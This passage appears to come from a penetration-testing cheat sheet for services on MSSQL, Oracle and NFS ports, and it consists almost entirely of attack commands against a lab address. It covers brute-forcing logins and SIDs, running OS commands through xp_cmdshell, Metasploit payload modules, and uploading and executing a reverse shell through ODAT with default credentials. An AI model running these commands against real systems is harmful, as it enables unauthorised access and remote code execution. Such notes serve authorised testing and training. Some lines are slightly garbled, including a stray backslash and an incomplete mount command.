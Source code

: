 ### Port 1030/1032/1033/1038

Used by RPC to connect in domain network.

### MSSQL - 1433

```bash
nmap -p 1433 -sU --script=ms-sql-info.nse 10.11.1.111
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_login
use exploit/windows/mssql/mssql_payload
sqsh -S 10.11.1.111 -U sa
	xp_cmdshell 'date'
  	go

```

### Port 1521 - Oracle

```bash
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe


```

### Port 2049 - NFS

```bash
showmount -e 10.11.1.111
\        
If you find anything you can mount it like this:

mount 10.11.1.111:/ /tmp/NFS
mount -t 10.11.1.111:/ /tmp/NFS
```
